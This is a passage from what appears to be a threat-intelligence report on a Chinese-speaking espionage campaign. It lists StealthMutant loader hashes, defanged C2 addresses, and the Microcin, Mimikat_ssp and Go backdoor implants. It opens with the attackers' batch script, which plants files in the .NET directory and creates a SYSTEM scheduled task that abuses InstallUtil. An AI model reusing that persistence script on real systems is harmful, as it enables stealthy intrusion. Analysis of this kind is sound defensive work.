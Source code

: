 @echo offcd /d "%~dp0"copy /Y Microsoft.Service.Watch.targets "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Service.Watch.targets"copy /Y MstUtil.exe.config "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MstUtil.exe.config"schtasks /create /TN "\Microsoft\Windows\UNP\UNPRefreshListTask" /SC ONSTART /TR "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /ConfigFile=MstUtil.exe.config /U C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Service.Watch.targets" /F  /DELAY 0000:02 /RU SYSTEM /RL HIGHESTschtasks /run /TN "\Microsoft\Windows\UNP\UNPRefreshListTask"




The following table lists known StealthMutant loader IOCs, together with their corresponding ScrambleCross shellcode files and contacted C2 addresses. It’s worth noting that most of the ScrambleCross shellcodes (loaded by both StealthMutant and StealthVector) reached out to the same server (i.e. ns.glbaitech[.]com) and that StealthMutant was observed in this campaign only from February, 2021.



Loader MD5
C&C Address
Compilation Timestamp


0603C8AAECBDC523CBD3495E93AFB20C
92.38.178[.]246
Tuesday, 23.03.2021 08:00:44 UTC


ns.glbaitech[.]com


8C7598061D1E8741B8389A80BFD8B8F5
ns.glbaitech[.]com
Saturday, 20.02.2021 03:27:42 UTC


F9F9D6FB3CB94B1CDF9E437141B59E16
ns.glbaitech[.]com
Wednesday, 08.12.2021 07:07:28 UTC



In addition to the above components, we found other stagers and post-exploitation malware implants during our research, some of which were attributed to or have been used by known Chinese-speaking threat actors:

Microcin: a backdoor typically used by the SixLittleMonkeys threat actor, which we have been tracking since 2016. It is worth noting that since its inception, the SixLittleMonkeys group has been using Microcin against various targets, partly against high-profile entities based in Russia and Central Asia.
The implants we observed in this campaign are shipped as DLLs that ought to run in the context of exe, with the primary intent of reading a C2 address from an encrypted configuration file stored in %WINDIR%\debug\netlogon.cfg and reaching out to the server to obtain a further payload. Interestingly, the Trojan holds a scheduling algorithm that would skip any work on Saturdays, checking the local time every hour to determine if Saturday has passed.
Mimikat_ssp: a publicly available post-exploitation tool used to dump credentials and security secrets from exe, also used widely by various Chinese-speaking actors (e.g. GhostEmperor, which we reported on).
Go implant: a formerly unknown backdoor used to contact a C2 server using a RESTful API, where a combination of a hardcoded IP address and a hypermedia directory path on the underlying server are used for information exchange. Both the IP and the server directory path are encrypted with AES-128 using a base64 encoded key stored in the backdoor’s image. The IP and directory path tuple are used during execution for:
